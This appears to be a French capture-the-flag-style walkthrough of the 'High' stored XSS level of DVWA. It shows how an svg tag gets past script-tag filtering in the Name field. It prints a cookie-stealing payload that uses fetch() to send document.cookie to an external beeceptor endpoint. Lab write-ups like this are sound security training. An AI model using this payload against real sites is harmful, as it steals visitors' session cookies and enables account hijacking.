




# Niveau "High"

Ici contrairement au niveau "Medium", le champ "Name" semble posséder un filtrage plus fort que le champ "Message" car plus rien ne s'affiche mis à part un malheureux petit chevron `">"` :



Si le filtrage s'effectue seulement sur les balises `<script>` `</script>`, il est fort probable que la balise `<svg>` soit toujours utilisable :



C'est bien le cas, on ajoute notre payload de vol de cookies :

```markup
<svg onload="fetch('https://dvwaxssrefl.free.beeceptor.com?cookie=' + document.cookie);">
```



Lorsqu'un visiteur lira le message, notre serveur malicieux listera les cookies reçues :



